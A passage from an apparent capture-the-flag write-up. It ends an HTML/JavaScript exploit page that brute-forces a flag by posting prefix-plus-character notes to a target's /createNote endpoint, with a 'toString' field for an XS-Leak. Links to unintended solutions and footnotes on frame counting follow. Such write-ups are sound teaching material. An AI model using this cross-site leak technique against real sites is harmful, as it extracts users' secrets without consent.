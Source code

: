 ```html
        form.appendChild(input);
      }
      document.body.appendChild(form);
      form.submit();
    };

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const url = decodeURIComponent(params.get("url"));
      const prefix = decodeURIComponent(params.get("prefix"));
      const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

      const pairs = [];
      for (const [i, c] of chars.entries()) {
        pairs.push([`note[${i}]`, prefix + c]);
      }
      pairs.push(["note[toString]", "x"]);

      submit(`${url}/createNote`, pairs);
    };

    main();
  </script>
</body>
```

### Unintended Solutions

**[ Using `<meta name="referrer" content="unsafe-url">` to judge the two kinds of EJS errors ]**

- https://gist.github.com/parrot409/bc09cefe891708930200c8b61d3f5c16
- https://gist.github.com/po6ix/b3101d07d55a4506777f940eb5a2ad48


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/
